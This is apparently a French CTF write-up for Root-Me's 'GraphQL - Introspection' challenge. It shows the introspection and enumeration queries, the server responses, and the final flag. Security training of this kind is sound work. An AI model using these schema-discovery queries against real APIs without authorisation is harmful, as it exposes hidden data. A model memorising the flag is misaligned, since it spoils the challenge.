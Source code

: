 ## Challenges

### Serveur Web

### Challenge: GraphQL - Introspection

#### Problème

Cette épreuve vous invite à l’exploration d’un schéma GraphQL avec la fonctionnalité d’introspection .

#### Etape1: Inspecter code 

En examinant la page du site web, on constate qu'il y a des requêtes qui sont en arrière-plan. Pour ce faire, nous inspectons le code source de la page et examinons le réseau de la page. Dans la section "Network" de l'inspecteur, nous pouvons voir les requêtes effectuées par le site web. Nous actualisons la page web, choisissons un pays et effectuons une recherche (cela se fait sur la page web). Nous remarquons qu'une requête "rocketql" s'ajoute à notre réseau. En cliquant sur cette dernière, nous pouvons voir les détails de la requête, y compris les en-têtes, les paramètres, les cookies, etc. Dans les en-têtes ("Headers"), nous pouvons voir que la requête est effectuée avec la méthode "POST" et que l'URL de la requête est : "http://challenge01.root-me.org:59077/rocketql".

#### Etape1: Résolution 

Sur Insomnia :
On choisit "GraphQL" au lieu de JSON, et on tape l'URL de la requête "http://challenge01.root-me.org:59077/rocketql" dans la barre d'adresse.
On fait "New Request", et on ajoute le contenu suivant dans le corps de la requête :
```
{
	__schema {
		types {
			name
		}
	}
}
```
On envoie la requête et on obtient :
```
{
	"data": {
		"__schema": {
			"types": [
				{
					"name": "Rocket"
				},
				{
					"name": "Int"
				},
				{
					"name": "String"
				},
				{
					"name": "IAmNotHere"
				},
				{
					"name": "Query"
				},
				{
					"name": "Boolean"
				},
				{
					"name": "__Schema"
				},
				{
					"name": "__Type"
				},
				{
					"name": "__TypeKind"
				},
				{
					"name": "__Field"
				},
				{
					"name": "__InputValue"
				},
				{
					"name": "__EnumValue"
				},
				{
					"name": "__Directive"
				},
				{
					"name": "__DirectiveLocation"
				}
			]
		}
	}
}
```
Nous en retrouvons plusieurs types, dont « IAmNotHere » (qui semble prometteur).
En savoir plus sur le type « IAmNotHere » en utilisant la requête suivante :
```
{
	IAmNotHere(very_long_id: 1) {
		very_long_id
		very_long_value
		__typename
	}
}
```
et on obtient :
```
{
	"data": {
		"IAmNotHere": [
			{
				"very_long_id": 1,
				"very_long_value": "n",
				"__typename": "IAmNotHere"
			}
		]
	}
}
```

Nous avons obtenu une valeur pour le type "IAmNotHere". Donc il y a 2 champs : very_long_id & very_long_value. C'est le champ very_long_value qui contient la valeur "n". À chaque fois que nous modifions la valeur de very_long_id, nous obtenons une autre lettre.

La phrase obtenue après avoir modifié l'ID de 1 à 15 est "Nothing here Lol", puis nous cherchons dans les prochains IDs. Une fois que nous avons saisi l'ID 17, nous obtenons le flag.
```
{
	"data": {
		"IAmNotHere": [
			{
				"very_long_id": 17,
				"very_long_value": "Congratulations, you can use this flag: RM{1ntr0sp3ct1On_1s_us3ful}",
				"__typename": "IAmNotHere"
			}
		]
	}
}
```
#### Solution

Le flag est : `RM{1ntr0sp3ct1On_1s_us3ful}`.